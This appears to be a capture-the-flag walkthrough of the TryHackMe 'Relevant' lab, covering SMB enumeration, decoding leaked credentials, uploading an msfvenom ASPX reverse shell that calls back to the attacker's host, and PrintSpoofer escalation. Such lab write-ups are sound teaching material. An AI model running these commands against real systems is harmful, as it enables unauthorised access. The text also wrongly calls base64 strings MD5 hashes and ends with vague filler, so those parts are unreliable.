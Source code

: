 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
comments: true
categories: [thm, ctf]
tags: [windows, active_directory]
---
```

Hello everyone, today we are solving Relevant room from TryHackMe.

## Scope

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

Before diving into any further analysis, it's essential to initiate a preliminary assessment by running a simple ping command on the target host. This initial step can provide valuable information about the host's operating system and network characteristics. Pay close attention to the Time to Live (TTL) value, as it often reveals details about the host's underlying OS.

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

Based on the basic OS detection performed, it's likely that the target machine is running a Windows operating system. The TTL value by default is 128 in Windows machines.

## Enumeration using nmap

Running nmap with -sC for default scripts, -sV enumerate version of every running service, -T4 is running script faster, -vvv to show me all the open ports as it is found and -oA for outputing all formats in case I want to pass it to another tool.

```bash
nmap -sCV -O -T4 -vvv -oA nmap/relevent 10.10.97.109
```
### Port Scan Results

The scan identified several open ports on the host:

- Port 80/tcp: Open, running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) with various HTTP methods supported. The web server is likely running on Windows Server and presents itself as "IIS Windows Server."

- Port 135/tcp: Open, running Microsoft Windows RPC.

- Port 139/tcp: Open, running Microsoft Windows netbios-ssn.

- Port 445/tcp: Open, running Windows Server 2016 Standard Evaluation 14393 with the service "microsoft-ds."

- Port 3389/tcp: Open, possibly running ms-wbt-server. An SSL certificate is present with the commonName "Relevant."

### Operating System Detection

The scan provides an educated guess about the host's operating system, suggesting it is likely running Microsoft Windows 2016, 2012, or 2008. However, it notes that the OS fingerprint is not ideal due to a missing closed TCP port.

## SMB Protocol on 445

### Try Anonymous Login

Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares
```

![CME](/assets/img/uploads/20230614185247.png)

Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```

The users passwords was MD5 hashed.

## Crack The Hash
 
`Qm9iIC0gIVBAJCRXMHJEITEyMw==`
`QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk`

The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

![Privilages](/assets/img/uploads/20230614214734.png)

## PrivEsc

While investigation, I've uncovered the presence of the powerful `SeImpersonatePrivilege`. This privilege opens up an opportunity to leverage a tool called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), which takes advantage of Impersonation Privileges. Specifically, it exploits the `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019, allowing for a privilege escalation from LOCAL/NETWORK SERVICE to SYSTEM-level access. This discovery sheds light on a significant security vulnerability within these Windows systems.

![Privilages_is_500](/assets/img/uploads/20230614224001.png)

In the realm of cybersecurity, vigilance is paramount, and it's reassuring to know that your Antivirus (AV) has successfully identified and thwarted a potentially harmful "Potatoes attack." However, as we navigate the intricate landscape of security testing and ethical hacking, occasional roadblocks can arise. Currently, in the world of Kali Linux, there's a particular challenge hindering the execution of the EternalBlue MS17-010 exploit. This exploit, notorious for its role in significant cyber incidents, relies on a specific set of conditions to work effectively. Identifying and overcoming these obstacles is a crucial aspect of the cybersecurity journey, ensuring that we are always prepared to address both detected threats and technical hurdles in our pursuit of a safer digital environment.
